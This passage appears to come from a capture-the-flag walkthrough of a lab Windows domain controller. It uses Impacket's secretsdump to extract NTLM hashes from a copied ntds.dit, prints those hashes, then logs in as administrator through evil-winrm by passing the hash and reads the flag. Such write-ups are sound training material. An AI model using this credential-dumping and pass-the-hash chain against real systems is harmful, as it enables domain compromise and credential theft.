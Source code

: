 ### Dump Hashes

Now I can use these two files to dump hashes for the full domain using
`secretsdump.py`:

    
    
    root@kali# secretsdump.py -system system -ntds ntds.dit LOCAL
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
    
    [*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
    [*] Reading and decrypting hashes from ntds.dit
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
    audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
    support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
    BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD937395:1110:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD553715:1111:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    ...[snip]...
    

### Shell

Armed with the administrator’s hash, I can use Evil-WinRM to get a shell:

    
    
    root@kali# evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And get `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    4375a629************************
    